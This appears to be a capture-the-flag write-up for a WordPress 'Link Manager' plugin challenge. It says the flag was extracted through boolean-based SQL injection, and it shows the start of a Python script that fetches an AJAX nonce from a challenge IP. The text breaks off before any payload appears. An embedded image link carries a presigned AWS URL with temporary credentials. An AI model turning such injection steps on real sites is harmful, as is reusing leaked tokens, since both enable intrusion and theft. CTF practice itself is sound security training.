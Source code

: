 # Link Manager

## Description

I am very angry that WordPress dropped the support for Link Manager in version 3.5 release. I created my own plugin to cover that feature and it is still in the beta phase, can you check if everything's solid?

NOTE: This is a fully white box challenge, almost no heavy brute force is needed.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/3b2450b1-f4e5-4ff9-8f00-27e47d68ea91/attachment.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4666FHGZLYC%2F20250522%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250522T210323Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjECUaCXVzLXdlc3QtMiJHMEUCIQDaZ4grJUDd5eyeA26UwESJGaEs5xICdWd%2BU7n2kybj5wIgfOs%2F4I%2BLpFrsE12yH%2BdaKlOg0KBUpmcqw25Gzcn%2B4vsqiAQI3v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDDs5f1QK4QJAvkZG1SrcA%2F9bs918ogff%2FZvvC%2FIl%2BTcwgfIBYxKxsfF4iIcpoalAvw1hHltMf9VZ9oI8KQj4SvPv4R562OU9yulSGE%2FExKEIOpmrI0eD1aQ7uQMdcGL%2FdVLTH6A9q8si4jYjufNkp1Vnh3CH3DypuiQM3eLqOzKKWhb%2FUdOMnAEyxA13ocB0QoCCjc1qgmcG%2FtZblgwW%2FOajwxZqcgNn1xJjgUp%2BokvJrJjn%2BL7M3i4xe26xMBGYeWk0O5QO2d%2Ba204zJnzQie1erjfXlxNzeQ%2FcOOyuSrubxV6%2Bm3s%2BJGde%2BMhuHoZDhbOwf8QfExyZ5e8VNRZtbrL6OwKi5llW%2BzusqEfF1qRTEzjPLmCwOD%2Ft5KyTVnpby3DrwSMMAwXJFwxEL%2B64rJKEO9lRKwtA3req2PGhyMkYj5zUfJ103MmHrLNrakW%2FDZE9sBtoXuwNdhclsWpWV8LUdn0SNTco2W1KLr4%2FnpVzaGxVIdPiwyEiaLrpjyxYiVEngQJc8vGWnQbQqfrmY6W0PKwHW5znxzStTl8FHhFxoMUpct4CF8amWFu1mzHFrO9Unv38u4bawGgRQOgOhjhO0pfAuK94BUWK4ZoK9vpYFbTrv1Tg%2BC1jlVFJfZPLnOiGdyKsocTabDg2MMCTvsEGOqUBq2iFnx1RH8tlGQagKFLexRzXTStwXh6Yxzb%2FvH9R0%2BdeLFxU%2FwOW9X0iyIy%2Bjkuyrkdhg4DLG%2F0L5I47WZmJg%2F9p6pnxJeNcQ48nI%2FLswWg0SsgIPfNQCQFGTFgv27iHRd3l%2BPDVcJ2XuDBCpW7Gf%2FfMq%2FiMJnZ2XCALYHEqu1%2FWpcLNxByTr1FWYjLbFUbSzD0U78fBKglulakJTOfCUJFv85yC\&X-Amz-Signature=eff18a06b1bd5d210df7a27331e9206054cb242e045ad9a3a885913da57b762e\&X-Amz-SignedHeaders=host\&x-id=GetObject)

## How to Solve

I solved this challenge by leveraging SQL injection in the `link-manager`. I used a boolean-based SQL injection to extract the flag stored in the `flag_links_data` option. Below is my solution script.

### Step 1: Populate the Data

```python
import httpx
import re

link = "http://100.25.255.51:9097"

# Step 1: Fetch the Nonce from the Front Page
def fetch_nonce():
    front_page_url = link
    response = httpx.get(front_page_url)

    # Extract the nonce using regex (adjust pattern based on how it's printed)
    match = re.search(r"ajaxNonce\s*=\s*'([a-zA-Z0-9_-]+)'", response.text)
    if match:
        return match.group(1)
    else:
        raise ValueError("Nonce not found on the front page.")

# Step 2: Submit the Link Data
def submit_link(url, name, description):
    # Fetch nonce from the front page
    nonce = fetch_nonce()

    # Define the AJAX URL
    ajax_url = link+"/wp-admin/admin-ajax.php"

    # Prepare the data payload
```